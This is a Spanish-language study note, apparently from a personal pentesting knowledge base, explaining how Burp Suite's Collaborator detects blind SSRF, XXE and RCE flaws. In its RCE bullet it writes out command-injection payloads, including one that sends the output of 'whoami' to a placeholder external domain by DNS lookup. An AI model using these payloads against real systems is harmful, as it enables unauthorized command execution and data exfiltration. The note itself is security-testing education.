

---
tags:
  - "#estructura/subseccion"
  - "#gestion/duracion/corto"
  - "#gestion/relevancia/muy-alta"
  - "#gestion/dificultad/normal"
  - "#hacking/red-team"
  - "#herramientas/burp-suite"
  - "#tecnologia/servicio/http-s"
  - "#formato/apunte"
  - gestion/estado/pausado
---
> ⚠️ **Nota de Licencia:** Este módulo es exclusivo de la versión **Burp Suite Professional**. No se encuentra disponible ni es visible en la versión Community (gratuita).

---

## 📌 Resumen Operativo del Módulo

**Burp Collaborator** es un servidor intermediario gestionado en la nube que sirve para identificar vulnerabilidades **Out-of-Band (OOB)** o "a ciegas" (*Blind*), donde el servidor de la víctima procesa nuestros payloads de forma interna pero nunca devuelve una respuesta visible en la interfaz web.

### 🧩 Mecanismo de Acción:
1. **Generación:** Burp te proporciona un subdominio único, aleatorio e indetectable (ej: `xyz123...oastify.com`).
2. **Inyección:** Introduces este subdominio en parámetros sospechosos de la aplicación web (como campos de carga de URLs, importación de XML o cabeceras).
3. **Intercepción:** Si la aplicación web de la víctima es vulnerable, intentará resolver el dominio o conectarse a él. Burp Collaborator atrapa esa interacción externa (DNS, HTTP/S o SMTP) y te la notifica en su panel, sirviendo como prueba irrefutable de la vulnerabilidad.

---

## 🚀 Principales Vectores de Ataque Detectados

* **SSRF a ciegas (Blind Server-Side Request Forgery):** Se confirma cuando el servidor de la víctima muerde el anzuelo y realiza una petición HTTP/S hacia el subdominio de Collaborator, demostrando que puede ser forzado a interactuar con infraestructura externa o interna.
* **XXE a ciegas (Blind XML External Entity):** Ocurre cuando el procesador XML de la aplicación resuelve entidades externas dirigidas al dominio de Collaborator, permitiendo la posterior exfiltración de archivos del sistema a través de las peticiones DNS/HTTP.
* **RCE a ciegas (Blind Remote Code Execution):** Utilizado cuando ejecutas comandos en el sistema pero no ves el *output* en pantalla. Forzar un comando como `; ping xyz123.oastify.com` o `; nslookup \`whoami\`.xyz123.oastify.com` generará una interacción en el panel que confirmará la ejecución del código y permitirá extraer datos (como el nombre del usuario del sistema) dentro del propio tráfico de red.

---

[[Herramientas - Auditoría y Análisis Web con Burp Suite|⬅️ Volver a Burp Suite]]